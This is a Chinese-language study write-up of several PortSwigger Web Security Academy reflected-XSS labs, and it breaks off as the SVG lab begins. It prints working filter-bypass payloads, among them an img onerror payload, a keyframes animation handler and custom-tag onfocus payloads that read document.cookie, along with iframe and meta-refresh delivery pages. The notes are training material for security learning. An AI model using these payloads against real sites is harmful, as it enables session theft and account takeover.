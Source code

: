 js 中`replace`只会替换字符的第一次出现。所以 content 填入`<><img src=x onerror=alert(window.origin)/>`可以直接过

_这里发现 svg 好像不能在 p 元素里用 小记一下_

然后再测试了看起来好像存在的`Obfuscating attacks via HTML encoding`。由于提取文字用的是`innerHTML`而不是`innerText`无法实现。

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with most tags and attributes blocked

之前挖自己学校遇到过[类似的](https://src.sjtu.edu.cn/post/237670/)，不过是存储型的。也就是 [cheet sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 找一个不常见的属性。

```html
123"><style>@keyframes x{}</style><input style="animation-name:x" onanimationend="1+1;b=document;a=window.alert;a(b.cookie)"</input>"
```

~~_这个存储型+导致登录凭证泄露竟然给我低危🫠。。_~~

这题的合法tag和attributes属实难找。不想写批量检测的，遂抄答案了

```html
"><body onresize=print()>
```

`onresize`事件在`窗口或框架被调整大小时`发生。由于给了exploit-server，用 iframe 修改框架大小

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

题解是用的 `burp Intruder`检测。看来 xss 字典还是有必要的。

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with all tags blocked except custom ones

```html
/?search=<xss+id%3Dx+onfocus%3Dalert(document.cookie)%20tabindex=1>#x
```

用`location.hash`配合 id 自动 focus 到元素上触发 onfocus 事件。学到了

exploit-server 可以用 meta refresh 跳转

```html
<meta http-equiv="refresh" content="0; url='https://0a6400b20383db3782698d65007c00b9.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'">
```

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) with some SVG markup allowed

这一关没有字符处理，只有返回黑名单。
